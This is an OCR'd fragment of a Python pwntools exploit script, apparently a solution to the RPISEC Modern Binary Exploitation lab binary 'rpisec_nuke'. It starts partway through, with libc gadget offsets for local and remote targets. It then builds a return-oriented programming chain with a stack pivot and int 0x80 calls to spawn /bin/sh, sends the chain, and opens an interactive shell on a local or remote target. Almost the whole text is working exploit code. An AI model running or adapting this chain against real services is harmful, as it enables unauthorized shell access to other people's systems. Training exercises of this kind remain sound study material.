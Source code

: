     binsh = libc_base+0x160a24          # "/bin/sh\0" # remote
    #binsh = libc_base+0x16084c          # "/bin/sh\0"  # local
    #pop_eax = libc_base+0x2470f         # pop eax ; ret # local
    pop_eax = libc_base+0x2469f         # pop eax ; ret # remote
    pop_edx = libc_base+0x1aa2          # pop edx ; ret # local AND remote
    #int_80 = libc_base+0x2e725          # int 0x80 # local
    int_80 = libc_base+0x2e6a5         # int 0x80 # remote 
    ptr_binsh = target+0x20 
    null_ptr = target+0x40
    
    log.success("elf_base found at: "+hex(elf_base))
    log.success("libc_base found at: "+hex(libc_base))
    log.success("binsh string found at: "+hex(binsh))
    
    nuke_code  = "cefa0bb0"*32
    nuke_code += "a91c9298"
    nuke_code += "a91c9298"
    nuke_code += code_pack(pop_ecx_ebx)
    nuke_code += code_pack(ptr_binsh)
    nuke_code += code_pack(binsh)
    nuke_code += code_pack(pop_eax)
    nuke_code += "530b4953"
    nuke_code += "00495300"
    nuke_code += "49530049"
    nuke_code += code_pack(pop_edx)
    nuke_code += code_pack(null_ptr)
    nuke_code += code_pack(int_80)
    nuke_code += code_pack(binsh)
    nuke_code += "49494949"*24
    nuke_code += code_pack(stack_pivot)
    nuke_code += "444f4f4d" # DOOM  
    # mirror
    nuke_code += "444f4f4d" # DOOM  
    nuke_code += code_pack(stack_pivot)
    nuke_code += code_pack(pop_edx)
    nuke_code += code_pack(null_ptr)
    nuke_code += code_pack(int_80)
    nuke_code += "530b4953"
    nuke_code += "00495300"
    nuke_code += "49530049"
    nuke_code += code_pack(pop_ecx_ebx)
    nuke_code += code_pack(ptr_binsh)
    nuke_code += code_pack(pop_eax)
    nuke_code += "a91c9298"
    
    log.info("reprogramming nuke...")
    # reprogram nuke
    r.sendline(nuke_code)
    r.sendline("") 
    r.sendline("")
    r.sendline("\n")
    
    #pause()
    r.interactive()
if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/mnt/hgfs/conceptofproof/Documents/MBE/labs/project2/rpisec_nuke'], env={"LD_PRELOAD":""})